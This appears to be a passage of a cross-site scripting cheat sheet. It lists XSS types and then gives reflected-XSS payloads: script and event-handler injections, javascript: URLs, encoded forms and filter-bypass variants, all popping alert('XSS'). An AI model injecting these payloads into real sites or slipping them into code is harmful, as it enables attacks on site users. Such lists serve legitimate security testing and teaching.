 1. **Reflected XSS** - Scripts reflected from user input
2. **Stored XSS** - Scripts stored on the server
3. **DOM-Based XSS** - Scripts executed in the DOM
4. **Blind XSS** - Scripts executed in different contexts

## Reflected XSS {#reflected-xss}

Reflected XSS occurs when user input is immediately reflected in the response without proper sanitization.

### Basic Payloads

#### 1. Simple Alert
```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
```

#### 2. Event Handlers
```javascript
<body onload=alert('XSS')>
<div onclick=alert('XSS')>Click me</div>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
```

#### 3. JavaScript Protocol
```javascript
<a href="javascript:alert('XSS')">Click me</a>
<iframe src="javascript:alert('XSS')">
<form action="javascript:alert('XSS')">
```

### Advanced Reflected XSS

#### 1. Encoded Payloads
```javascript
// HTML entities
&#60;script&#62;alert('XSS')&#60;/script&#62;

// URL encoding
%3Cscript%3Ealert('XSS')%3C/script%3E

// Unicode encoding
\u003cscript\u003ealert('XSS')\u003c/script\u003e
```

#### 2. Filter Bypass
```javascript
// Case variation
<ScRiPt>alert('XSS')</ScRiPt>

// Mixed case
<ScRiPt>alert('XSS')</ScRiPt>

// Alternative tags
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
```
